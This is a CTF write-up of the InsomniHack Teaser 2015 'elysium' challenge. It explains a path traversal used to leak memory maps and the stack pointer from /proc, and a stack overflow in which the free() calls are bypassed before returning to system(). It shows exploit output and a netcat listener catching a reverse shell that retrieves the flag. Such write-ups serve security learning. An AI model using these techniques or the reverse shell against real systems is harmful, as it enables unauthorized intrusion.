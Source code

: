 ```yaml
---
layout: post
title: "InsomniHack Teaser - elysium writeup"
categories: writeups insomnihack-teaser-2015
tags: exploitation
author: saelo
---
```


Just a quick writeup for the elysium (200pts) challenge from the InsomniHack Teaser CTF 2015. We ended making the 6th place during the CTF :)

We're given a [binary]({{ site.url }}/files/insomnihack-teaser-2015/elysium) which, supplied with a port number, binds to that port and listens for incoming connections. Upon receiving an incoming connection it speaks a custom protocol with the client.

    > file elysium
    elysium: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b1730cced4284ad9a58d8948eaa55eb3beaccd90, not stripped
    > checksec elysium
    RELRO           STACK CANARY      NX            PIE             FILE
    Partial RELRO   No canary found   NX enabled    PIE enabled     elysium

After spending some time reversing the protocol I wrote a small [client](https://github.com/kitctf/writeups/blob/master/insomnihack-teaser-2015/elysium/code/client.py) to communicate with the server.
Here's a sample interaction with the server:

    Armadyne robots controller
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > 2
    Total units : 2925
    Medical units : 320
    Military units : 75
    Social units : 630
    Spy units : 227
    Shield units : 329
    Communication units : 250
    Transport units : 312
    Computer units : 782
    Available units : 5267
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > a 100
    Computer units added
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > 2
    Total units : 3025
    Medical units : 320
    Military units : 75
    Social units : 630
    Spy units : 227
    Shield units : 329
    Communication units : 250
    Transport units : 312
    Computer units : 882
    Available units : 5167


## Bug #1

Notice the "Get informations" option in the menu? This let's us read a file relative to a folder called 'Elysium_citizenship_authorization' in the current directory. Of course it does not check for path traversal so we can dump any file we want with this.

This is especially interesting since reading /proc/self/maps will allow us to bypass most of the ASLR of the target process (except the stack internal randomization). Also we can now retrieve the remote libc and get important offsets from there.

## Bug #2

In the cipher_recv function we see this:

![cipher_recv]({{ site.url }}/imgs/insomnihack-teaser-2015-cipher_recv.jpg)

'decrypted_buffer' is our decrypted message and 'data_buffer' is returned to the caller (contains just the user data without the hash). 'cmp' verifies that the given hash matches the other one given as hex string.

There's a bug in there, did you spot it?

The programmer expected the first part of the message (the sha1 hash) to always be 40 characters in size. Since we fully control the position of the ':' in the payload we can thus overflow the 'hash_buffer' which is located on the stack.

Exploitation of this bug turned out not to be so easy. Here's why: See the two calls to memset() and free() above? The first argument to those functions lies on the stack as well, between the buffer we're overflowing and the return address.
Here's the stack layout of the cipher_recv function:

    .text:000016C2 var_6D           = byte ptr -6Dh
    .text:000016C2 hash_buffer      = byte ptr -45h         # we're overflowing this one
    .text:000016C2 buf              = byte ptr -1Ch
    .text:000016C2 decrypted_buffer = dword ptr -18h        # get's freed
    .text:000016C2 recv_buffer      = dword ptr -14h        # get's freed as well
    .text:000016C2 var_10           = dword ptr -10h
    .text:000016C2 data_buffer      = dword ptr -0Ch
    .text:000016C2 socket           = dword ptr  8
    .text:000016C2 len_ptr          = dword ptr  0Ch
    .text:000016C2 decrypter        = dword ptr  10h


Now, free() will basically kill the process for any argument that's not a valid pointer to a heap chunk or NULL (from the man page: "If ptr is NULL, no operation is performed.").

The binary does some heap randomization after receiving a connection, preventing us from easily knowing the offsets of heap chunks from the start of the heap. However, it is possible to bypass this since the binary uses srand(time()) to initialize the prng, enabling us to calculate the same random number sequence as well. See [this exploit](https://twitter.com/OwariDa/status/554495951466135552) for an example on how to do this.

I actually missed that fact during the CTF and so went another route:

Besides /proc/self/maps there is another nifty file in /proc:

>        /proc/[pid]/syscall (since Linux 2.6.27)
>             This file exposes the system call number and argument registers for the system call
>             currently being executed by the process, followed by the values  of
>             the stack pointer and program counter registers.  The values of all six argument 
>             registers are exposed, although most system calls use fewer registers.

There's a pointer to userland esp in there! Neat! That enables us to bypass the stack internal randomization and calculate exactly at which address the buffer we're overflowing is located. At this point we're able to bypass the two free()s by pointing each pointer to itself and pointing the length pointer to 0x00000004, causing memset to overwrite it's argument pointer with zero. The subsequent call to free() will then become a nop.

At this point we have EIP control and can return into a little gadget to adjust the stack past the length pointer, then return into system() with the first argument pointing to our payload string on the stack (whose address we now know). I used a quick and dirty reverse shell payload for my exploit, see [@OwariDa](https://twitter.com/OwariDa)'s exploit for a better way to do this :)

Find the full exploit [here](https://github.com/kitctf/writeups/blob/master/insomnihack-teaser-2015/elysium/code/exploit.py).

    > ./exploit.py 
    [*] got target memory layout
    [*] stack buffer @ 0xbf8c25a3
    [*] controlled data @ 0xb7710104
    [*] system() @ 0xb73c3100
    [*] sending final payload...
    [*] done, check your listener

And, in a different shell:

    > nc -vl 0.0.0.0 4444
    Listening on [0.0.0.0] (family 0, port 4444)
    Connection from [54.76.18.92] port 4444 [tcp/*] accepted (family 2, sport 54559)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(esylium) gid=1001(esylium) groups=1001(esylium)
    $ ls
    elysium
    Elysium_citizenship_authorization
    reboot
    $ ./reboot

    --------------------------------------------------------
                     System Reboot >>> 5
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 4
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 3
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 2
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 1
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 0
    --------------------------------------------------------

    --------------------------------------------------------
                INS{reb00t_R0pch4ain_FTW}
    --------------------------------------------------------
    $ 

Now all that's left to do is to watch the [movie](http://www.imdb.com/title/tt1535108/) some time ... ;)
